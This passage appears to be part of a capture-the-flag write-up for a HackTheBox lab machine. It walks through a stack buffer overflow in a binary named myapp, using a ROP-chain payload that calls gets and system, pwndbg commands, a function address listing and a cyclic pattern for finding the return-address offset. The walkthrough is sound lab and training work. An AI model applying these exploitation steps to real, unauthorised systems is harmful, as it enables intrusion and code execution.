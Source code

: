 ```jsx
payload = junk + pop_rdi + binsh + plt_gets + pop_rdi + binsh + plt_system
```

We see that the buffer allocated here is 112 bytes. Let’s use pwndbg to debug the program

```jsx
chmod +x myapp
pwndbg myapp
set follow-fork-mode parent
```

We follow the main parent process.

We can get the address value in gdb or the decompiler, both points to system eventually:

```python
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  printf@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  test
0x000000000040115f  main
0x00000000004011b0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401214  _fini
```

 Now, we can use cyclic to find the exact offset to RIP:

```jsx
cyclic 130

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha
```

Now run the program in gdb and enter our payload

```jsx
run

Starting program: /home/kali/htb_labs/safe/myapp 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching after vfork from child process 65620]
 12:14:49 up  2:10,  1 user,  load average: 0.01, 0.00, 0.00

What do you want me to echo back? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha

```
